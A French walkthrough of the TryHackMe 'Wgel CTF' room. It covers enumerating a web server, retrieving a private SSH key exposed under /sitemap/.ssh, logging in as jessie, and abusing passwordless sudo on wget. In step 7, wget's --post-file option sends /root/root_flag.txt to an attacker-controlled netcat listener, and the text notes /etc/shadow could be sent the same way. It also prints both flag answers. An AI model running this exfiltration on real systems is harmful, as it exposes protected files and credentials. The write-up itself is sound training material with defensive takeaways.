---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - Gobuster
  - SSH
  - GTFOBins
  - wget
---

# Wgel CTF - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Enumération web, clé SSH exposée, escalade de privilèges sudo wget |
| **Prérequis** | Bases Linux, HTTP, SSH, compréhension de wget et de la technique d'exfiltration |

!!! warning "Note sur les captures d'écran"
    Certaines captures montrent `~/thm/net-sec-challenge` dans le prompt au lieu de `~/thm/wgel-ctf`. Il s'agit d'une erreur de répertoire de travail lors de la prise des captures - cela ne change rien aux commandes ni aux résultats obtenus.

## Contexte et objectifs

Cette room propose une compromission Linux en deux temps : trouver une clé SSH privée exposée accidentellement sur un serveur web, puis élever ses privilèges jusqu'à root en abusant d'un accès sudo sur `wget` pour exfiltrer le flag root via une requête HTTP.

!!! info "À propos de cette room"
    Wgel CTF illustre deux problèmes fréquents : une clé SSH laissée dans un répertoire web accessible, et un binaire courant (wget) mal sécurisé via sudo. La technique d'exfiltration avec `--post-file` est particulièrement intéressante car elle permet de lire un fichier root sans jamais obtenir de shell root.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

On commence par identifier les services exposés sur la cible afin de choisir les prochaines pistes d'attaque :

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/WgelCTF/WindowsTerminal_WHOpDzwW1P.png)

Deux ports ouverts :
- **22/tcp** : SSH
- **80/tcp** : HTTP (Apache)

### Étape 2 : Inspection de la page d'accueil Apache

On visite `http://<IP_cible>` et on tombe sur la page par défaut Apache. Apparemment vide d'information, mais on ne s'arrête pas là.

On inspecte le code source (Ctrl+U) :

[](./screen/WgelCTF/msrdc_cfRuOt9BGF.png)

[](./screen/WgelCTF/O6HNYy4F89.png)

!!! tip "Pourquoi inspecter une page par défaut Apache ?"
    La page par défaut Apache est celle qui s'affiche quand aucun contenu n'a encore été déployé. Les développeurs la laissent souvent en place "temporairement" et y ajoutent parfois des notes personnelles dans le code source HTML. Pour un pentester, une page par défaut n'est jamais à ignorer : il faut systématiquement regarder son code source.

On trouve le commentaire : **"Jessie don't forget to update the website"**. L'utilisateur probable est `jessie`, en minuscules comme la plupart des noms d'utilisateurs Linux.

### Étape 3 : Enumération des répertoires avec Gobuster

La page par défaut ne mène nulle autre part. On cherche des répertoires cachés :

```bash
gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt
```

[](./screen/WgelCTF/WindowsTerminal_lsouiGfOmf.png)

Gobuster découvre `/sitemap`. On l'explore dans le navigateur.

### Étape 4 : Découverte de la clé SSH exposée

On visite `/sitemap` dans le navigateur : c'est un site basique sans contenu utile apparent. On relance Gobuster, cette fois ciblé sur ce sous-répertoire :

```bash
gobuster dir -u http://<IP_cible>/sitemap -w /usr/share/wordlists/dirb/common.txt
```

[](./screen/WgelCTF/LTKUiU0l30.png)

Gobuster révèle un répertoire `.ssh/`. On navigue dedans et on y trouve une chose extrêmement intéressante :

```
http://<IP_cible>/sitemap/.ssh/id_rsa
```

[](./screen/WgelCTF/msrdc_if9aZuzhjK.png)

[](./screen/WgelCTF/msrdc_7NA3sZm0Kj.png)

Une clé RSA privée est exposée sur le serveur web sans aucune restriction d'accès. On la télécharge :

```bash
wget http://<IP_cible>/sitemap/.ssh/id_rsa
chmod 600 id_rsa
```

!!! tip "Pourquoi `chmod 600` ?"
    SSH refuse d'utiliser une clé privée si ses permissions sont trop ouvertes. `600` signifie lecture/écriture uniquement pour le propriétaire, zéro accès pour les autres. Sans ça, SSH retourne une erreur "Permissions are too open" et refuse de se connecter.

!!! warning "Observation clé"
    Un répertoire `.ssh/` ne doit jamais se trouver dans un répertoire web servi publiquement. La clé SSH privée est, par définition, un secret qui ne doit jamais quitter la machine pour laquelle elle est générée.

### Étape 5 : Connexion SSH et flag utilisateur

On se connecte avec la clé et le nom d'utilisateur découvert :

```bash
ssh -i id_rsa jessie@<IP_cible>
```

[](./screen/WgelCTF/WindowsTerminal_XF7BYm3Pug.png)

On cherche le flag utilisateur :

```bash
find /home -name "*.txt" 2>/dev/null
cat /home/jessie/Documents/user_flag.txt
```

[](./screen/WgelCTF/UofNtWZuFK.png)

[](./screen/WgelCTF/WindowsTerminal_HuV0DfWBxO.png)

!!! success "Réponse"
    **User flag** → `057c67131c3d5e42dd5cd3075b198ff6`

### Étape 6 : Identification du vecteur de privesc via sudo -l

Maintenant qu'on est connecté en tant que `jessie`, la première action est de vérifier les droits sudo disponibles :

```bash
sudo -l
```

[](./screen/WgelCTF/WindowsTerminal_jKxWRtlZKu.png)

Jessie peut exécuter `/usr/bin/wget` en tant que root sans mot de passe.

!!! info "Pourquoi wget est-il exploitable via sudo ?"
    `wget` est un outil de téléchargement de fichiers depuis internet. Il semble inoffensif, mais son option `--post-file` envoie le contenu d'un fichier local dans le corps d'une requête HTTP POST vers une URL de notre choix. Exécuté en tant que root via sudo, wget peut lire et transmettre n'importe quel fichier du système, y compris `/etc/shadow` ou `/root/root_flag.txt`, vers une machine sous notre contrôle. Aucun shell root n'est nécessaire pour lire des fichiers protégés.

Pour trouver comment exploiter concrètement ce binaire, on consulte **GTFOBins** (gtfobins.github.io) : c'est la référence qui recense tous les binaires Unix détournables pour une élévation de privilèges, avec des exemples d'exploitation prêts à l'emploi classés par contexte (sudo, SUID, capabilities...).

[](./screen/WgelCTF/brave_CdPNn73MSt.png)

!!! tip "GTFOBins : votre référence pour les binaires sudo mal sécurisés"
    Avant d'accorder sudo sur n'importe quel binaire, toujours vérifier s'il figure dans GTFOBins. Si c'est le cas, ce droit sudo est une faille d'élévation de privilèges.

### Étape 7 : Exfiltration du flag root via sudo wget

Maintenant que l'on sait ça, on prépare un listener sur notre machine pour recevoir la requête POST :

```bash
nc -lvnp 8888
```

Le flag utilisateur s'appelait `user_flag.txt` dans `/home/jessie/Documents/`. Par convention, on déduit que le flag root suit le même format et se trouve dans `/root/root_flag.txt`.

Ensuite, sur la machine cible, on utilise wget pour envoyer le flag root vers notre listener :

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<VOTRE_IP>:8888
```

[](./screen/WgelCTF/WindowsTerminal_h635UD4MLe.png)

Le listener netcat reçoit la requête POST avec le flag dans le corps :

[](./screen/WgelCTF/WindowsTerminal_bhLgtfc4ou.png)

!!! success "Réponse"
    **Root flag** → `b1b968b37519ad1daa6408188649263d`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Clé SSH privée exposée dans un répertoire web public, permission sudo sans mot de passe sur wget, nom d'utilisateur en commentaire HTML |
| **Techniques utilisées** | Enumération web, récupération de clé SSH via HTTP, exfiltration de fichier via sudo wget --post-file |
| **Outils employés** | Nmap, Gobuster, wget, SSH, Netcat |

!!! abstract "Ce qu'il faut retenir"
    1. Ne jamais placer de répertoires `.ssh/` ou de clés privées dans un répertoire servi par un serveur web, même si le site semble "temporaire".
    2. Les commentaires HTML sont visibles de tous : les informations personnelles ou techniques n'ont aucune raison d'y figurer.
    3. `wget` avec sudo est un vecteur d'exfiltration puissant : il permet de lire des fichiers root sans jamais obtenir de shell root, et peut même écraser des fichiers sensibles via un téléchargement.
    4. Toujours consulter GTFOBins pour tout binaire accessible via sudo.
